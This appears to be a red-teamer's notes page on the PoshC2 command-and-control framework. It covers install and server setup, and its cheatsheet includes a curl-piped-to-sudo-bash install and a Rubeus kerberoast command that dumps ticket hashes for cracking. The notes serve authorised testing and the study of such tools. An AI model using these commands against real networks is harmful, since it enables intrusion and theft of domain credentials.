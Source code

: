 # PoshC2

- [https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/](https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/)
- [https://xakep.ru/2023/08/18/interstellar-c2/](https://xakep.ru/2023/08/18/interstellar-c2/)
- [[PDF] A Deep Dive Into a PoshC2 Implant (Vlad Pasca, Senior Malware)](https://resources.securityscorecard.com/all/poshc2-implant)




## Install

- [https://github.com/nettitude/PoshC2](https://github.com/nettitude/PoshC2)

```
$ curl -sSL https://github.com/nettitude/PoshC2/raw/dev/Install.sh | sudo bash -s -- -p /opt/PoshC2 -b dev
```




## Run

List projects:

```
$ posh-project -l
```

Show current project:

```
$ posh-project -c
```

Create a new project:

```
$ posh-project -n <PROJECT_NAME>
```

Adjust config:

```
$ posh-config
```

Start team server:

```
$ posh-server
```

Connect to the team server:

```
$ posh -u snovvcrash
```




## Cheatsheet

[Load](https://poshc2.readthedocs.io/en/latest/usage/loadingmodules.html) .NET assembly and run it (available for agents that load CLR):

```
C# 01> loadmodule /tmp/Rubeus.exe
C# 01> run-exe Namespace.Class Assembly <args>
C# 01> run-exe Rubeus.Program Rubeus kerberoast /usetgtdeleg /format:hashcat
```
